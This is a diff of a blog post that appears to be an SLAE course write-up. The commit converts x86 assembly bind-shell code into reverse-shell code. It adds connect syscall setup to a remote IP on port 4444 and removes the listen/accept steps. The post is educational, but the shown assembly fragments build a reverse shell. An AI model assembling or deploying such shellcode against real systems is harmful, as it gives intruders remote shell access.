

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-05-25-SLAE-exam-assignment-02.md, in a window 1280 px wide and 1400 px high, scrolled down 4491 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Work in progress...

````diff
--- a/_posts/2020-05-25-SLAE-exam-assignment-02.md
+++ b/_posts/2020-05-25-SLAE-exam-assignment-02.md
@@ -71,8 +71,7 @@
 #define __NR_execve   11    0xB
 ```
 
-Each syscall and its arguments are defined in man 2 pages in form of C function. In order to find out which argments are needed we need to look at man pages.
-Based on man 2 pages for socket syscall (`man 2 socket`) we can see the three arguments that need to be passed to syscall.
+Each syscall and its arguments are defined in man 2 pages in form of C function. In order to find out which argments are needed we need to look at man pages (`man 2 socket`).
 
 ```
 int socket(int domain, int type, int protocol);
@@ -178,17 +177,18 @@
 > The  connect() system call connects the socket referred to by the file descriptor sockfd to the address specified by addr. The addrlen argument specifies the size of addr.  The format of the address in addr is determined by the address space of the socket sockfd; see socket(2) for further details.
 > If the socket sockfd is of type SOCK_DGRAM, then addr is the address to which datagrams are sent by default, and the only address from which datagrams are received.   If  the  socket  is  of type SOCK_STREAM or SOCK_SEQPACKET, this call attempts to make a connection to the socket that is bound to the address specified by addr.
 > Generally, connection-based protocol sockets may successfully connect() only once; connectionless protocol sockets may use  connect()  multiple  times  to change  their  association.   Connectionless sockets may dissolve the association by connecting to an address with the sa_family member of sockaddr set to AF_UNSPEC (supported on Linux since kernel 2.2).
+> addrlen specifies the size, in bytes, of the address structure pointed to by addr.
 
-
-
-addrlen specifies the size, in bytes, of the address structure pointed to by addr.
-
-In a same way as for socket syscall we need to prepare data for bind bind syscall with exception that bind is using struct sockaddr which needs to be saved on the stack.
-In order to place some value on the stack PUSH instraction needs to be used.
-Since stack grows from higher addresses to lower addresses, last argument needs to be pushed first and due to little endian format values needs to be pushed in reverse order.
+First we need to clear EAX register so that we can place a syscall number (0x16A) in it.
 
 ```
-server.sin_addr.s_addr = htonl("192.168.192.159"); // any address (0.0.0.0)
+XOR EAX, EAX
+MOV AX, 0x16A
+```
+
+Then we need to push struct on the stack. Since stack grows from higher addresses to lower addresses, last argument needs to be pushed first and due to little endian format values needs to be pushed in reverse order.
+```
+server.sin_addr.s_addr = htonl("192.168.192.159"); // remote host IP address
 server.sin_port = htons(4444);                     // port 4444
 server.sin_family = AF_INET;                       // address family (ip v4)
 ```
@@ -207,52 +207,11 @@
 
 ```
 MOV EBX, EAX     ; copy value from EAX to EBX, EAX holds pointer to socket descriptor as result of socket call
-MOV EAX, 0x169   ; move bind syscall number in EAX register
 MOV ECX, ESP     ; move address pointing to the top of the stack to ECX
 MOV DL, 0x16     ; move value 0x16 to EDX as third parameter
 INT 0x80         ; interrupt
 ```
 
-In the same way listen syscall can be written in assembly.
-```
-int listen(int sockfd, int backlog);
-```
-listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
-The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
-The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.
-
-From prototype code we can see backlog is set to 2: `listen(socketd, 2)` and sockfd is result of socket syscall currently located in EDI register.
-
-```
-XOR EAX, EAX     ; set EAX to zero
-MOV AX, 0x16B    ; move 0x16B to (E)AX
-MOV EBX, EDI     ; move socket descriptor into EBX as first argument
-MOV CL,  0x2     ; move "2" as backlog into ECX as second argument
-INT 0x80         ; interrupt
-```
-
-Now when we have socket, bind and listen, next we need to accept connection. From `man 2 accept` we can see which arguments need to be passed to syscall.
-```
-int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
-```
-
-The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET).
-It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.
-The newly created socket is not in the listening state.
-
-```
-XOR EAX, EAX     ; set EAX to zero for clean start
-MOV AX, 0x16C    ; move accept syscall number (0x16C) in (E)AX
-MOV EBX, EDI     ; move socket descriptor from EDI to EBX as first argument
-XOR ECX, ECX     ; set ECX to zero as argument is NULL
-XOR EDX, EDX     ; set EDX to zero as argument is NULL
-XOR ESI, ESI     ; set flag to 0 by XOR-ing
-INT 0x80         ; interrupt
-
-XOR EDI, EDI     ; set EDI to zero
-MOV EDI, EAX     ; As result, new socket descriptor will be saved in EAX
-                 ; so we can move it to EDI for further use.
-```
 
 Almost there.. next we need to call dup2 syscall with following arguments:
 ```
@@ -324,7 +283,7 @@
 INT 0x80
 ```
 
-## Bind shell code ##
+## Reverse shell code ##
 
 So when we put it all together and add sections and entry point the result is following:
 
````
